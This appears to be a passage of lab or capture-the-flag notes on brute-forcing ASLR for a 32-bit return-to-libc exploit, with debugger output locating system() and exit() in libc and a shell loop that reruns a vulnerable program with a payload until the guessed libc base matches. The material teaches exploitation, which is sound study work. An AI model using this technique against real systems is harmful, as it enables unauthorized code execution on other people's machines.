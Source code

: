 ### Bruteforcing ASLR

* Running `vmmap` inside Gef in two different runs gives two different libc base addresses
```bash
0xf7d|75|000 0xf7d|98|000 0x00000000 r-- /usr/lib32/libc.so.6
0xf7c|f6|000 0xf7d|19|000 0x00000000 r-- /usr/lib32/libc.so.6
```
* We see that only one octet changes each time the program runs with the ASLR activated

* We can collect the system() and exit() addresses inside Gef too
```bash
gef➤  p system
$3 = {<text variable, no debug info>} 0xf7d45560 <system>
gef➤  xinfo 0xf7d45560
────────────────────────────────────────────── xinfo: 0xf7d45560 ──────────────────────────────────────────────
Page: 0xf7d19000  →  0xf7e97000 (size=0x17e000)
Permissions: r-x
Pathname: /usr/lib32/libc.so.6
Offset (from page): 0x2c560
Inode: 0
Segment: .text (0xf7d191b0-0xf7e96f19)
Offset (from segment): 0x2c3b0
Symbol: system


gef➤  p exit
$4 = {<text variable, no debug info>} 0xf7d34290 <exit>
gef➤  xinfo 0xf7d34290
────────────────────────────────────────────── xinfo: 0xf7d34290 ──────────────────────────────────────────────
Page: 0xf7d19000  →  0xf7e97000 (size=0x17e000)
Permissions: r-x
Pathname: /usr/lib32/libc.so.6
Offset (from page): 0x1b290
Inode: 0
Segment: .text (0xf7d191b0-0xf7e96f19)
Offset (from segment): 0x1b0e0
Symbol: exit
```

### Notes
* Only one octet changes each time the program runs with the ASLR activated
* We wanna target the system and exit functions
* Under ASLR, for a given library, the offsets don't change, only the base addresses do
* We can either add addresses manually or use pwntools to do it.

### PLAN
1. Setting up one of the collected libc address in our payload.
2. run the vulnerable program in an infinite loop on until the libc address we set up in the payload matches the libc address used by the vulnerable program.


```bash
$ while [ True ]; do ./vulnerable $(cat payload); done
```
